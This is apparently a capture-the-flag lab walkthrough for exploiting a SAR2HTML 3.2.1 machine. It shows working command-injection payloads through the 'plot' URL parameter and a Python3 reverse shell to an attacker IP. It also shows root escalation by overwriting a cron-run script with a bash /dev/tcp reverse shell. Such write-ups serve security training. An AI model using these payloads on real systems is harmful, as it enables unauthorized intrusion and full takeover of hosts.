 # 🚩 SAR2HTML Exploitation and Privilege Escalation

## 🎯 Objective

Gain **remote shell access** to a vulnerable SAR2HTML web application, and then **escalate privileges to root** by exploiting a writable shell script executed via a cron job.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24
```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6
```

- Found open port: **80 (HTTP)**

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt
```

- Found: `/robots.txt`

### 🔹 robots.txt Content

```text
Disallow: /sar2HTML/
```

---

## 📁 Step 4: SAR2HTML Enumeration

- URL: `http://10.0.2.6/sar2HTML/`
- Detected **SAR2HTML v3.2.1**
- Vulnerable to **Remote Code Execution** via `plot` parameter

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test RCE:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;whoami
```

- Response: `www-data` (confirms RCE)

---

## 🎯 Step 6: Get a Reverse Shell

[Parallel Way to Gain Access to sar2html Machine](./Parallel%20Way%20to%20Gain%20Access%20to%20sar2html%20Machine(METASPLOIT).md)


### Start Listener on Attacker Machine:

```bash
nc -lvnp 4444
```

### Exploit with Python3 Reverse Shell:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> Replace `10.0.2.5` with your Kali IP. Use URL encoding if needed.

---

## 📦 Step 7: Post-Exploitation Enumeration

### Check Kernel Version

```bash
uname -r
```

- `5.0.0-23-generic`

### Find SUID Binaries

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

(No unusual binaries found for direct root exploit.)

---

## ⏱️ Step 8: Privilege Escalation via Cron Job

### Check Crontab

```bash
cat /etc/crontab
```

- Found interesting line:

```cron
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
```

### View Script Contents

```bash
cat /var/www/html/finally.sh
```

```bash
#!/bin/sh
./write.sh
```

### Check Permissions on write.sh

```bash
ls -l /var/www/html/write.sh
```

- Result:

```bash
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh
```

✅ Writable by `www-data`, and **executed by root via cron** → escalation vector.

---

## 🧨 Step 9: Modify Script to Spawn Root Shell

### Replace `write.sh` with Reverse Shell Payload:

On attack box, start listener:

```bash
nc -lvnp 1234
```

On target (remote shell):

```bash
echo '#!/bin/bash' > /var/www/html/write.sh
echo 'bash -i >& /dev/tcp/192.168.1.107/1234 0>&1' >> /var/www/html/write.sh
chmod +x /var/www/html/write.sh
```

Wait for cron to execute.

### ✅ Root Access Achieved

- Listener receives connection as `root`.

---

## ✅ Summary

| Step | Action |
|------|--------|
| Web RCE | Exploit SAR2HTML via `plot` param |
| Initial Shell | Python3 reverse shell |
| PrivEsc | Overwrite cron-executed `write.sh` |
| Final Shell | Got root reverse shell via cron |

---

## 🔑 Key Techniques Used

- Web Enumeration (Gobuster, robots.txt)
- RCE via unsanitized GET param
- Reverse Shell via Python
- Cron job privilege escalation
- Shell replacement using writable scripts

---

## 🧰 Tools Used

- `netdiscover`
- `nmap`
- `gobuster`
- `nc` (Netcat)
- Bash scripting
- Python3 reverse shell

---

## 📝 Notes

- If `bash -i >& /dev/tcp/...` fails, use full Python shell or encode URL
- Always check crontabs and SUID files during enumeration
- Try `linpeas.sh` or `pspy` for automated detection in real CTFs

---
